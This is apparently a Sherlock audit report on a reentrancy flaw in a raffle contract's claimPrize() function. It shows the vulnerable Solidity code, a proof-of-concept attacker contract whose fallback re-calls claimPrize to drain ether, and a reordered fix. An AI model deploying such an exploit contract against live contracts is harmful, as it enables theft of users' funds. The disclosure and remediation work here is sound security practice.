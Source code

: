 Spare Opaque Cottonmouth

High

# Reentrancy attack in `claimPrize()`

## Summary
Reentrancy attack in `claimPrize()` when prize reward is ether
## Vulnerability Detail
After diving into the `WinnablesPrizeManager` contract in `WinnablesPrizeManager.sol` we can see the function `claimPrize`:
```solidity
    /// @notice (Public) Send the prize for a Raffle to its rightful winner
    /// @param raffleId ID of the raffle
    function claimPrize(uint256 raffleId) external {
        RafflePrize storage rafflePrize = _rafflePrize[raffleId];
        RaffleType raffleType = rafflePrize.raffleType;
        if (raffleType == RaffleType.NFT) {
            NFTInfo storage raffle = _nftRaffles[raffleId];
            _nftLocked[raffle.contractAddress][raffle.tokenId] = false;
            _sendNFTPrize(raffle.contractAddress, raffle.tokenId, msg.sender);
        } else if (raffleType == RaffleType.TOKEN) {
            TokenInfo storage raffle = _tokenRaffles[raffleId];
            unchecked { _tokensLocked[raffle.tokenAddress] -= raffle.amount; }
            _sendTokenPrize(raffle.tokenAddress, raffle.amount, msg.sender);
        } else if (raffleType == RaffleType.ETH) {
            unchecked { _ethLocked -= _ethRaffles[raffleId]; }
            _sendETHPrize(_ethRaffles[raffleId], msg.sender); // @audit-issue
        } else revert InvalidRaffle();
        if (msg.sender != rafflePrize.winner) revert UnauthorizedToClaim();
        if (rafflePrize.status == RafflePrizeStatus.CLAIMED) revert AlreadyClaimed();
        rafflePrize.status = RafflePrizeStatus.CLAIMED; // @todo
        emit PrizeClaimed(raffleId, msg.sender);
    }
```
There are `if` statements which check what is the value of `raffleType` in order to know what kind of reward is set to the specific raffle and send the prize to its rightful winner. At the top of the smart contract, where the static variables are declared, we see the `_ethLocked` variable. After clarifying and communicating with a sponsor, we understand that this variable stores the total value of ether that is in the contract balance. In otherwords, `_ethLocked` is a sum of all the ether set for prize rewards of the available raffles. The smart contract balance is NOT limited to the prize reward of only one specific raffle that has ether for reward prize, but all others. In order to send the prize reward in `ETH` to the winner the `claimPrize` function uses an internal function `_sendETHPrize()`.:
```solidity
    /// @dev Transfers the NFT prize to the winner
    /// @param amount Amount of ETH to send
    /// @param winner Address of the winner
    function _sendETHPrize(uint256 amount, address winner) internal {
        (bool success, ) = winner.call{ value: amount }("");
        if (!success) revert ETHTransferFail();
    }
```
There is no `nonReentrant` modifier from OpenZeppelin's `ReentrancyGuard` or any other protection from reentrancy attack. Why a reentrancy attack is possible and efficient in this case? Because the status of the raffle is updated to `RafflePrizeStatus.CLAIMED` after the use of `_sendETHPrize()`. Thus, if the winner is a malicious contract which exploits the reentrancy vulnerability, it can claim not just the prize reward - `_ethRaffles[raffleId]` but all the total ether in the contract.
## Impact
A malicious winner of a raffle with ether prize reward can drain all the available ether in the contract
## Proof of Concept
1. Alice who is an admin creates a new raffle with prize reward of `1 ETH`. There are many others raffles with different IDs also with `ETH` prize reward so we assume `_ethLocked` = `5 ETH` or total `5 ETH` locked in prize rewards for all the raffles in the contract.
2. Bob, who is aware of the reentrancy bug in the contract, as soon as he sees a new raffle with an ETH reward, signs up by buying as many tickets as he can from addresses of his malicious contracts exploiting the reentrancy vulnerability. An example contract that exploits the bug:
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

interface IPrizeManager {
    function claimPrize(uint256 raffleId) external;
}

contract ReentrantClaimer {
    bool private _done;
    uint256 private _raffleId;
    address private _prizeManager;

    function doubleClaim(address prizeManager, uint256 raffleId) external {
        _raffleId = raffleId;
        _prizeManager = prizeManager;
        IPrizeManager(prizeManager).claimPrize(raffleId);
    }

    fallback() external payable {
        if (_done) {
            _done = false;
            _raffleId = 0;
            _prizeManager = address(0);
            return;
        }
        _done = true;
        IPrizeManager(_prizeManager).claimPrize(_raffleId);
    }

    receive() external payable {
        if (_done) {
            _done = false;
            _raffleId = 0;
            _prizeManager = address(0);
            return;
        }
        _done = true;
        IPrizeManager(_prizeManager).claimPrize(_raffleId);
    }
}
```
3. Bob wins the raffle after some period of time when all the tickets has been sold and when he calls `claimPrize` successfully drains all available `5 ETH` in the contract.
## Code Snippet
https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/WinnablesPrizeManager.sol#L118
https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/WinnablesPrizeManager.sol#L311-L317
## Tool used
Manual Review
## Recommendation
The order of changing the raffle status to `RafflePrizeStatus.CLAIMED` should be changed:
```solidity
    /// @notice (Public) Send the prize for a Raffle to its rightful winner
    /// @param raffleId ID of the raffle
    function claimPrize(uint256 raffleId) external {
        RafflePrize storage rafflePrize = _rafflePrize[raffleId];
        RaffleType raffleType = rafflePrize.raffleType;
        if (rafflePrize.status == RafflePrizeStatus.CLAIMED) revert AlreadyClaimed(); // @note should be here!
        rafflePrize.status = RafflePrizeStatus.CLAIMED; // @note should be here!
        if (raffleType == RaffleType.NFT) {
            NFTInfo storage raffle = _nftRaffles[raffleId];
            _nftLocked[raffle.contractAddress][raffle.tokenId] = false;
            _sendNFTPrize(raffle.contractAddress, raffle.tokenId, msg.sender);
        } else if (raffleType == RaffleType.TOKEN) {
            TokenInfo storage raffle = _tokenRaffles[raffleId];
            unchecked { _tokensLocked[raffle.tokenAddress] -= raffle.amount; }
            _sendTokenPrize(raffle.tokenAddress, raffle.amount, msg.sender);
        } else if (raffleType == RaffleType.ETH) {
            unchecked { _ethLocked -= _ethRaffles[raffleId]; }
            _sendETHPrize(_ethRaffles[raffleId], msg.sender);
        } else revert InvalidRaffle();
        if (msg.sender != rafflePrize.winner) revert UnauthorizedToClaim();
        emit PrizeClaimed(raffleId, msg.sender);
    }
```